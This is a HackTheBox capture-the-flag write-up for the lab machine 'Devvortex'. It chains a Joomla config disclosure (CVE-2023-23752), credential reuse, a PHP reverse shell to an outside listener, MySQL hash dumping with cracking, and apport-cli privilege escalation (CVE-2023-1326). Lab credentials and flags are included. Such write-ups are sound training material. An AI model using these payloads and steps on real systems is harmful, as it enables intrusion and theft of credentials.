









# Devvortex - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Identified vhost `dev.Devvortex.htb`. In the `robots.txt` file, `Joomla` is indicated. Utilizing `CVE-2023-23752`, we extracted credentials from the configuration. With these credentials, we gained access and inserted a reverse shell into the `index.php` file within the `Joomla` templates, Found `logan` hashed password on `Joomla` database.

***Root***: Executed `sudo -l` revealing permission to run `apport-cli` as `root`. Leveraging `CVE-2023-1326`, privilege escalation was achieved.




## Devvortex Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Devvortex]
└──╼ $ nmap -sV -sC -oA nmap/Devvortex 10.10.11.242
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-05 21:23 IST
Nmap scan report for 10.10.11.242
Host is up (0.080s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



By employing `gobuster` to scan `vhosts`, we discovered the following:

```console
┌─[evyatar9@parrot]─[/hackthebox/Devvortex]
└──╼ $ gobuster vhost -u http://devvortex.htb/ -w ./subdomains-top1milion.txt -o vho -t 80 --no-error 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://devvortex.htb/
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2024/03/05 21:25:48 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb (Status: 200) [Size: 23221
...
```

Upon observing http://dev.devvortex.htb, the following web page is evident:



By examining `/robots.txt`, the following URLs are revealed:



Upon observing http://dev.devvortex.htb/administrator/, it becomes apparent that Joomla! is hosted. Reference: [Joomla!](https://www.joomla.org/):



By examining http://dev.devvortex.htb/administrator/manifests/files/joomla.xml, we retrieved the version, which is 4.2.6.

For this version, we can exploit the `Joomla! information disclosure - CVE-2023-23752` vulnerability.

According to the CVE, navigating to http://dev.devvortex.htb/api/index.php/v1/config/application?public=true allows us to retrieve the Joomla configuration:
```json
{
   "links":{
      "self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=tru",
      "next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=tru&page%5Boffset%5D=20&page%5Blimit%5D=20",
      "last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=tru&page%5Boffset%5D=60&page%5Blimit%5D=20"
   },
   "data":[
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "offline":false,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "offline_message":"This site is down for maintenance.<br>Please check back again soon.",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "display_offline_message":1,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "offline_image":"",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "sitename":"Development",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "editor":"tinymce",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "captcha":"0",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "list_limit":20,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "access":1,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "debug":false,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "debug_lang":false,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "debug_lang_const":true,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "dbtype":"mysqli",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "host":"localhost",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "user":"lewis",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "password":"P4ntherg0t1n5r3c0n##",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "db":"joomla",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "dbprefix":"sd4fg_",
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "dbencryption":0,
            "id":224
         }
      },
      {
         "type":"application",
         "id":"224",
         "attributes":{
            "dbsslverifyservercert":false,
            "id":224
         }
      }
   ],
   "meta":{
      "total-pages":4
   }
}
```

Using these credentials `lewis:P4ntherg0t1n5r3c0n##`, we accessed to the `Joomla` home page:



Now, we have the ability to edit PHP pages via the template option. This can be accessed by navigating to `System -> Administrator Templates`:



Then select the `Atum Details and Files` template.

Next, select index.php and append the following code `exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4242 0>&1'");` This will enable us to obtain a reverse shell:



After clicking on `Save`, a reverse shell as `www-data` is obtained:

```console
┌─[evyatar9@parrot]─[/hackthebox/Devvortex]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from devvortex.htb [10.10.11.242] 53532
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ whoami
whoami
www-data

```

We can browse the mysql tables using the same credentials as follows:

```console
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -pP4ntherg0t1n5r3c0n## -e "Show databases;"
<u lewis -pP4ntherg0t1n5r3c0n## -e "Show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
joomla
performance_schema
```

In the `joomla` database, we discovered the table `sd4fg_users`, which contains user and hashed passwords:
```console
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -pP4ntherg0t1n5r3c0n## -e "select * from joomla.sd4fg_users"
<g0t1n5r3c0n## -e "select * from joomla.sd4fg_users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id	name	username	email	password	block	sendEmail	registerDate	lastvisitDate	activation	params	lastResetTime	resetCount	otpKey	otep	requireReset	authProvider
649	lewis	lewis	lewis@devvortex.htb	$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u	0	1	2023-09-25 16:44:24	2024-03-05 19:58:01	0		NULL	0			0	
650	logan paul	logan	logan@devvortex.htb	$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12	0	0	2023-09-26 19:15:42	NULL		{"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}	NULL	0			
```

Let's attempt to find the password of the `logan` user using `john`:

```console
┌─[evyatar9@parrot]─[/hackthebox/Devvortex]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:08 DONE (2024-03-05 22:22) 0.1193g/s 167.5p/s 167.5c/s 167.5C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

And we successfully discovered the password `tequieromucho`.

This password can be utilized to log in via SSH as the `logan` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Devvortex]
└──╼ $ ssh logan@devvortex.htb 
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb,10.10.11.242' (ECDSA) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 05 Mar 2024 08:23:34 PM UTC

  System load:           0.0
  Usage of /:            64.0% of 4.76GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             164
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.242
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1c45


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Nov 21 10:53:48 2023 from 10.10.14.23
logan@devvortex:~$ cat user.txt
76f211b81400d0cc40b78e4498ae4820

```

And we get the user flag `76f211b81400d0cc40b78e4498ae4820`.

### Root

Upon executing `sudo -l`, the following output is observed: 
```console
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli

```

We can leverage `CVE-2023-1326` to achieve privilege escalation through `apport-cli`.

To proceed, we navigate to the `View Report` option on the crash file view. Remarkably, this can be accomplished even without the presence of a crash file:
```console
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

..dpkg-query: no packages found matching xorg
....................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): 

```

Now, we select `V` to view the report, then input `!/bin/bash` to obtain a root bash shell:
```console
What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
== ApportVersion =================================
2.20.11-0ubuntu27

== Architecture =================================
amd64

== CasperMD5CheckResult =================================
skip

== Date =================================
Tue Mar  5 20:30:11 2024

== DistroRelease =================================
Ubuntu 20.04

== Package =================================
xorg (not installed)
:!/bin/bash
root@devvortex:/home/logan# cat /root/root.txt
14e231e1f1997ae71db34e48a3093948
```

And we get the root flag `14e231e1f1997ae71db34e48a3093948`.

PDF password
```console
1$6$kdYdkbdlt4MMS7Qx$/lIiEByq.cgsQPyd82QDfhA/Qb5IgaukiUN0OOKewugqr1qeFFiQ4t2sAdiyAmUssoeg3.h1k/2BpdTRthmum.
```